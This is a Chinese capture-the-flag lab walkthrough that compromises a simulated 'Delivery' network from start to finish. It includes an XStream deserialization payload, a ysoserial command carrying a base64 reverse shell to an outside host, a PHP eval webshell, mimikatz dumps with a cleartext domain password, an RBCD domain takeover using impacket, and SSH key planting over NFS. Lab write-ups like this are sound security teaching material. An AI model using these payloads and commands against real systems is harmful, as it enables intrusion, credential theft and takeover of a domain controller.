


# Delivery

在这个靶场中，您将扮演一名渗透测试工程师，受雇于一家名为 Delivery 的小型科技初创公司，并对该公司进行一次渗透测试。你的目标是成功获取域控制器权限，以评估公司的网络安全状况。该靶场共有 4 个 Flag，分布于不同的靶机。

<!-- truncate -->

:::info

Tags

- XStream
- 内网渗透
- 域渗透

:::

```plaintext title="入口点"
39.99.229.247
```

## 入口点探测

使用 fscan 执行入口机探测

```shell title="./tools/fscan_1.8.4/fscan -h 39.99.229.247"
start infoscan
39.99.229.247:8080 open
39.99.229.247:22 open
39.99.229.247:21 open
39.99.229.247:80 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://39.99.229.247      code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[+] ftp 39.99.229.247:21:anonymous 
   [->]1.txt
   [->]pom.xml
[*] WebTitle http://39.99.229.247:8080 code:200 len:3655   title:公司发货单
```

## 入口机 Port 21 FTP

使用匿名连接 ftp 服务

```shell
ftp> ls -laih
229 Entering Extended Passive Mode (|||17425|)
150 Here comes the directory listing.
dr-xr-xr-x    2 0        0            4096 Aug 12  2022 .
dr-xr-xr-x    2 0        0            4096 Aug 12  2022 ..
-rw-r--r--    1 0        0               1 Aug 10  2022 1.txt
-rw-r--r--    1 0        0            1950 Aug 12  2022 pom.xml
226 Directory send OK.
```

将这两个文件下载下来进行分析

```plaintext title="1.txt"
文件为空
```

```xml title="pom.xml"
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.7.2</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>ezjava</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>ezjava</name>
    <description>ezjava</description>
    <properties>
        <java.version>1.8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.16</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

经典的 springframework + commons-collections

以及 xstream 1.4.16 存在有漏洞 CVE-2021-21342、CVE-2021-29505 等等

## 入口机 Port 8080 Web

直接进行访问



抓包看一下 POST 的数据

```plaintext
POST /just_sumbit_it HTTP/1.1
Host: 39.99.229.247:8080
Content-Length: 115
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/xml, text/xml, */*; q=0.01
Content-Type: application/xml;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://39.99.229.247:8080
Referer: http://39.99.229.247:8080/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<user><firstname>123</firstname><lastname>123</lastname><mobile>123</mobile><mfrom>123</mfrom><mto>123</mto></user>
```

将 POST 的数据改为恶意的载荷

```plaintext
POST /just_sumbit_it HTTP/1.1
Host: 39.99.229.247:8080
Content-Length: 3113
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/xml, text/xml, */*; q=0.01
Content-Type: application/xml;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://39.99.229.247:8080
Referer: http://39.99.229.247:8080/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2001fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>8.129.29.180</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>8.129.29.180</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

同时启动一个 RMI Server

```shell
./jdk1.8.0_481/bin/java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEyOS4yOS4xODAvMTAwMDUgMD4mMQ==}|{base64,-
d}|{bash,-i}"
```

发送恶意请求包，随后 RMI Server 被请求，即可收到回连的 shell

```shell
[20:52:19] received connection from 39.99.229.53:40868
[20:52:20] 39.99.229.53:40868: registered new host w/ db
(local) pwncat$ back
(remote) root@ubuntu:/# whoami
root
```

## flag #1

```shell
(remote) root@ubuntu:/# ls -laih /root/
total 52K
393218 drwx------  7 root root 4.0K Aug 12  2022 .
     2 drwxr-xr-x 18 root root 4.0K Apr  1 20:49 ..
393224 -rw-------  1 root root    0 Aug 12  2022 .bash_history
393219 -rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
393221 drwx------  3 root root 4.0K Jul  5  2022 .cache
393225 drwxr-xr-x  2 root root 4.0K Apr  1 20:49 flag
393226 drwxr-xr-x  2 root root 4.0K Aug 11  2022 .oracle_jre_usage
393329 drwxr-xr-x  2 root root 4.0K Jul  5  2022 .pip
393220 -rw-r--r--  1 root root  161 Dec  5  2019 .profile
404666 -rw-r--r--  1 root root  206 Apr  1 20:49 .pydistutils.cfg
528671 drwx------  2 root root 4.0K Jul  5  2022 .ssh
393232 -rw-------  1 root root 8.1K Aug 12  2022 .viminfo

(remote) root@ubuntu:/# cat /root/flag/flag01.txt 
   ██████                                               ██            ██             ██   ██                          
  ██░░░░██                    █████                    ░██           ░██            ░██  ░░                           
 ██    ░░   ██████  ███████  ██░░░██ ██████  ██████   ██████ ██   ██ ░██  ██████   ██████ ██  ██████  ███████   ██████
░██        ██░░░░██░░██░░░██░██  ░██░░██░░█ ░░░░░░██ ░░░██░ ░██  ░██ ░██ ░░░░░░██ ░░░██░ ░██ ██░░░░██░░██░░░██ ██░░░░ 
░██       ░██   ░██ ░██  ░██░░██████ ░██ ░   ███████   ░██  ░██  ░██ ░██  ███████   ░██  ░██░██   ░██ ░██  ░██░░█████ 
░░██    ██░██   ░██ ░██  ░██ ░░░░░██ ░██    ██░░░░██   ░██  ░██  ░██ ░██ ██░░░░██   ░██  ░██░██   ░██ ░██  ░██ ░░░░░██
 ░░██████ ░░██████  ███  ░██  █████ ░███   ░░████████  ░░██ ░░██████ ███░░████████  ░░██ ░██░░██████  ███  ░██ ██████ 
  ░░░░░░   ░░░░░░  ░░░   ░░  ░░░░░  ░░░     ░░░░░░░░    ░░   ░░░░░░ ░░░  ░░░░░░░░    ░░  ░░  ░░░░░░  ░░░   ░░ ░░░░░░  


flag01: flag{4b5fdf5d-31e1-4bb7-89ce-c9ee66b1f733}
```

## 入口机 代理枢纽

查看网卡信息

```shell
(remote) root@ubuntu:/etc# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.13.14  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe2d:2fe1  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:2d:2f:e1  txqueuelen 1000  (Ethernet)
        RX packets 98474  bytes 141326557 (141.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19455  bytes 2149188 (2.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 598  bytes 54807 (54.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 598  bytes 54807 (54.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

探测内网环境

```shell title="./fscan -h 172.22.13.0/24"
start vulscan
[*] NetInfo 
[*]172.22.13.6
   [->]WIN-DC
   [->]172.22.13.6
[*] NetBios 172.22.13.6     [+] DC:XIAORANG\WIN-DC         
[*] NetInfo 
[*]172.22.13.28
   [->]WIN-HAUWOLAO
   [->]172.22.13.28
[*] WebTitle http://172.22.13.28       code:200 len:2525   title:欢迎登录OA办公平台
[*] WebTitle http://172.22.13.57       code:200 len:4833   title:Welcome to CentOS
[*] WebTitle http://172.22.13.14       code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] NetBios 172.22.13.28    WIN-HAUWOLAO.xiaorang.lab           Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.13.28:8000  code:200 len:170    title:Nothing Here.
[+] ftp 172.22.13.14:21:anonymous 
   [->]1.txt
   [->]pom.xml
[*] WebTitle http://172.22.13.14:8080  code:200 len:3655   title:公司发货单
[+] mysql 172.22.13.28:3306:root 123456
```

建立内网代理

```shell
./chisel_1.10.1_linux_amd64 client 8.129.29.180:10000 R:0.0.0.0:10001:socks
```

## WIN-HAUWOLAO MySQL

在先前的内网扫描中，注意到 3306 端口存在有 mysql 弱口令

```plaintext
mysql 172.22.13.28:3306:root 123456
```

尝试进行连接

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.073 sec)
```

没有数据表的话，尝试 UDF

参考：[Red-vs-Blue/linux 环境下的 MySQL UDF 提权.md at master・SEC-GO/Red-vs-Blue](https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux%E7%8E%AF%E5%A2%83%E4%B8%8B%E7%9A%84MySQL%20UDF%E6%8F%90%E6%9D%83.md)

```sql
MySQL [(none)]> show variables like "%secure_file_priv%";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set, 1 warning (0.083 sec)

MySQL [(none)]> select host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
+-----------+------+-----------------------+
| host      | user | plugin                |
+-----------+------+-----------------------+
| localhost | root | mysql_native_password |
| %         | root | mysql_native_password |
+-----------+------+-----------------------+
2 rows in set (0.073 sec)

MySQL [(none)]> show variables like "%plugin%";
+-------------------------------+----------------------------------------------------+
| Variable_name                 | Value                                              |
+-------------------------------+----------------------------------------------------+
| default_authentication_plugin | mysql_native_password                              |
| plugin_dir                    | C:\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\ |
+-------------------------------+----------------------------------------------------+
2 rows in set, 1 warning (0.076 sec)

MySQL [(none)]> show variables like 'version_compile_%';
+-------------------------+--------+
| Variable_name           | Value  |
+-------------------------+--------+
| version_compile_machine | x86_64 |
| version_compile_os      | Win64  |
+-------------------------+--------+
2 rows in set, 1 warning (0.075 sec)
```

具备有进行 UDF 操作的条件

准备 UDF 操作的 sql 语句

UDF 的 HEX 载荷，可以从     [MDUT/MDAT-DEV/src/main/Plugins/Mysql/udf\_win64\_hex.txt at main · SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT/blob/main/MDAT-DEV/src/main/Plugins/Mysql/udf_win64_hex.txt)     中获得

```sql
select unhex('4D5A900003000000040......') into dumpfile 'C:/phpstudy_pro/Extensions/MySQL5.7.26/lib/plugin/mysqludf.so';

ERROR 1 (HY000): Can't create/write to file 'C:\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\mysqludf.so' (Errcode: 2 - No such file or directory)
```

看样子 UDF 这条路被拦截了，但是由于 `secure_file_priv` 为空，并且知道是 phpstudy 环境，可以尝试直接写文件

```sql
sselect "<?php @eval($_POST['a']) ?>" into dumpfile 'C:/phpstudy_pro/WWW/shell.php';
```

尝试用蚁剑进行连接



## flag #2

```shell
C:\phpstudy_pro\WWW> type C:\Users\Administrator\flag\flag03.txt
      :::::::::::::           :::     ::::::::  :::::::  :::::::: 
     :+:       :+:         :+: :+:  :+:    :+::+:   :+::+:    :+: 
    +:+       +:+        +:+   +:+ +:+       +:+   +:+       +:+  
   :#::+::#  +#+       +#++:++#++::#:       +#+   +:+    +#++:    
  +#+       +#+       +#+     +#++#+   +#+#+#+   +#+       +#+    
 #+#       #+#       #+#     #+##+#    #+##+#   #+##+#    #+#     
###       #############     ### ########  #######  ########       
    flag03: flag{28163c00-641c-461e-b61b-994960212f25} 
```

## 域信息收集

由于 web 服务权限就是 SYSTEM 所以直接添加用户

```cmd
net user randark Admin123### /add
net localgroup administrators randark /add
```

然后 RDP 连上去，直接部署工具


抓取哈希

```shell
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit"

......

Authentication Id : 0 ; 95111 (00000000:00017387)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2026/4/1 20:50:14
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :    
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg :    
    wdigest :    
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :    
     * Username : chenglei
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
    ssp :    
    credman :    
```

抓取域信息

```shell
C:\Users\randark\Desktop>Adinfo_win.exe -u chenglei -d XIAORANG.LAB -p Xt61f3LBhg1 --dc 172.22.13.6

[i] Try to connect '172.22.13.6'
[c] Auth Domain: XIAORANG.LAB
[c] Auth user: chenglei@XIAORANG.LAB
[c] Auth Pass: Xt61f3LBhg1
[c] connected successfully,try to dump domain info
[i] DomainVersion found!
                    [+] Windows 2019 Server operating system
[i] Domain SID:
                    [+] S-1-5-21-3269458654-3569381900-10559451
[i] Domain MAQ found
                    [+] 10
[i] Domain Account Policy found
                    [+] pwdHistory: 24
                    [+] minPwdLength: 7
                    [+] minPwdAge: 1(day)
                    [+] maxPwdAge: 10675199(day)
                    [+] lockoutThreshold: 0
                    [+] lockoutDuration: 10(min)
[i] Domain Controllers: 1 found
                    [+] WIN-DC$  ==>>>   Windows Server 2022 Datacenter  [10.0 (20348)]  ==>>>  172.22.13.6
[i] ADCS has not found!
[i] Domain Exchange Server: 0 found
[i] Domain All DNS:
                    [+] Domain Dns 2 found,Saved in All_DNS.csv
[i] Domain Trusts: 0 found
[i] SPN: 31 found
[i] Domain GPOs: 2 found
[i] Domain Admins: 1 users found
                    [+]Administrator
[i] Enterprise Admins: 1 users found
                    [+]Administrator
[i] administrators: 1 users found
                    [+]Administrator
[i] Backup Operators: 0 users found
[i] Users: 6 found
[i] User with Mail: 0 found
[i] Only_name_and_Useful_Users: 4 found
[i] Only_admincount=1_andUseful_Users: 1 found
[i] Locked Users: 0 found
[i] Disabled Users: 2 found
[i] Users with passwords not set to expire: 1 found
[i] Domain Computers: 2 found
[i] Only_name_and_Useful_computers: 2 found
[i] Groups: 49 found
[i] Domain OUs: 1 found
[i] LAPS Not found
[i] LAPS passwords: 0 found
[i] SensitiveDelegate Users: 0 found
[i] AsReproast Users: 0 found
[i] Kerberoast Users: 1 found
                    [+] CN=krbtgt,CN=Users,DC=xiaorang,DC=lab  ==>>>  kadmin/changepw
[i] SIDHistory Users: 0 found
[i] CreatorSID Users: 0 found
[i] RBCD Users: 0 found
[i] Unconstrained Deligation Users: 0 found
[i] Constrained Deligation Users: 0 found
[i] Krbtgt password last set time: 2023-07-11 13:41:47 +0800 CST
[i] CSVs written to 'csv' directory in C:\Users\randark\Desktop
[i] Execution took 184.2091ms
```

对 AdInfo 的结果进行分析，注意到这条记录

```shell
chenglei,,2026-04-01 21:05:37 +0800 CST,2023-07-11 14:57:52 +0800 CST,805306368,,,,,"CN=chenglei,CN=Users,DC=xiaorang,DC=lab","CN=ACL Admin,CN=Users,DC=xiaorang,DC=lab"
```

## 域 RBCD

上文的结果说明，当前捕获的这个用户，是 `ACL Admin` 组的成员

按照 RBCD 思路去打就行

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains -q impacket-addcomputer xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account TEST$ with password P@ssw0rd.

┌──(randark㉿kali)-[~]
└─$ proxychains -q impacket-rbcd xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TEST$ can now impersonate users on WIN-DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TEST$        (S-1-5-21-3269458654-3569381900-10559451-1108)

┌──(randark㉿kali)-[~]
└─$ proxychains -q impacket-getST xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6
export KRB5CCNAME=Administrator@cifs_WIN-DC.xiaorang.lab@XIAORANG.LAB.ccache
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_WIN-DC.xiaorang.lab@XIAORANG.LAB.ccache
```

添加一条 hosts 记录

```shell
172.22.60.8     WIN-DC.xiaorang.lab
```

即可直接 getshell

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains impacket-psexec Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  8.129.29.180:10001  ...  172.22.13.6:445  ...  OK
[*] Requesting shares on WIN-DC.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file AnEccIOO.exe
[*] Opening SVCManager on WIN-DC.xiaorang.lab.....
[*] Creating service AufY on WIN-DC.xiaorang.lab.....
[*] Starting service AufY.....

C:\Windows\system32> dir C:\Users\Administrator
 Volume in drive C has no label.
 Volume Serial Number is C237-2C0F

 Directory of C:\Users\Administrator

2023/07/11  16:24    <DIR>          .
2023/07/11  13:36    <DIR>          ..
2023/07/11  13:36    <DIR>          3D Objects
2023/07/11  13:36    <DIR>          Contacts
2023/07/11  16:25    <DIR>          Desktop
2023/07/11  13:36    <DIR>          Documents
2023/07/11  13:36    <DIR>          Downloads
2023/07/11  13:36    <DIR>          Favorites
2023/07/11  16:24    <DIR>          flag
2023/07/11  13:36    <DIR>          Links
2023/07/11  13:36    <DIR>          Music
2023/07/11  13:36    <DIR>          Pictures
2023/07/11  13:36    <DIR>          Saved Games
2023/07/11  13:36    <DIR>          Searches
2023/07/11  13:36    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)  27,668,508,672 bytes free
```

## flag #4

```shell
C:\Windows\system32> type C:\Users\Administrator\flag\flag04.txt
d88888b db       .d8b.   d888b   .d88b.    j88D  
88'     88      d8' `8b 88' Y8b .8P  88.  j8~88  
88ooo   88      88ooo88 88      88  d'88 j8' 88  
88~~~   88      88~~~88 88  ooo 88 d' 88 V88888D 
88      88booo. 88   88 88. ~8~ `88  d8'     88  
YP      Y88888P YP   YP  Y888P   `Y88P'      VP  

flag04: flag{64832d7a-5e35-4e23-81a0-daaf7500a02a}
```

## Linux NFS

在最初的那台Linux机器上，更新包缓存，并安装工具

```shell
(remote) root@ubuntu:/etc# sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list
(remote) root@ubuntu:/etc# apt-get update
......
(remote) root@ubuntu:/etc# apt-get install nfs-common -y
......
```

然后连接 NFS

```shell
(remote) root@ubuntu:/etc# cd /
(remote) root@ubuntu:/# mkdir temp
(remote) root@ubuntu:/# mount -t nfs 172.22.13.57:/ ./temp -o nolock
```

写入  ssh 私钥

```shell
(remote) root@ubuntu:/# ssh-keygen -t rsa -b 4096
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:fvUWozhf35OFvOBtfP8wAHgdo+lCN3w0HgoLTzDkPbs root@ubuntu
The key's randomart image is:
+---[RSA 4096]----+
|     .=.o   *    |
|     . * = B =   |
|      . B X +    |
|       . * +     |
|        S . o.o. |
|       . o o.+oo.|
|        E +..+*.o|
|         . o.o=*o|
|            .. .O|
+----[SHA256]-----+

(remote) root@ubuntu:/# cd /temp/home/joyce/
(remote) root@ubuntu:/temp/home/joyce# mkdir .ssh
(remote) root@ubuntu:/temp/home/joyce# cat /root/.ssh/id_rsa.pub >> /temp/home/joyce/.ssh/authorized_keys
```

随后就可以连接目标机器的ssh

```shell
(remote) root@ubuntu:/temp/home/joyce# ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
Last login: Wed Apr  1 22:13:41 2026 from 172.22.13.14

Welcome to Alibaba Cloud Elastic Compute Service !

[joyce@centos ~]$ whoami
joyce
```

## flag #2

flag权限较高，需要找一个提权的路径

```shell
[joyce@centos ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/bin/sudo
/usr/bin/chage
/usr/bin/at
/usr/bin/mount
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/ftp
/usr/bin/umount
```

一眼相中 ftp

```shell title="入口机"
(remote) root@ubuntu:/temp/home/joyce# python3 -m pyftpdlib -p 6666 -u test -P test -w
[I 2026-04-01 22:18:49] concurrency model: async
[I 2026-04-01 22:18:49] masquerade (NAT) address: None
[I 2026-04-01 22:18:49] passive ports: None
[I 2026-04-01 22:18:49] >>> starting FTP server on 0.0.0.0:6666, pid=4617 <<<
```

```shell title="Linux NFS"
[joyce@centos ~]$ ftp 172.22.13.14 6666
Connected to 172.22.13.14 (172.22.13.14).
220 pyftpdlib 1.5.6 ready.
Name (172.22.13.14:joyce): test
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put /flag02.txt
local: /flag02.txt remote: /flag02.txt
227 Entering passive mode (172,22,13,14,204,209).
125 Data connection already open. Transfer starting.
226 Transfer complete.
466 bytes sent in 1.9e-05 secs (24526.32 Kbytes/sec)
```

即可在入口机收到 flag02 文件

```shell
(remote) root@ubuntu:/temp/home/joyce# cat flag02.txt 
 SSS  h           d                CCC            d           t         l     
S     h           d               C               d           t  ii     l     
 SSS  hhh   aa  ddd ooo w   w     C    rrr eee  ddd eee nnn  ttt     aa l  ss 
    S h  h a a d  d o o w w w     C    r   e e d  d e e n  n  t  ii a a l  s  
SSSS  h  h aaa  ddd ooo  w w       CCC r   ee   ddd ee  n  n  tt ii aaa l ss  


flag02: flag{a85b9c4f-cdf5-4d0d-a46b-3a8aa3aff6fc}

hint: relay race
```
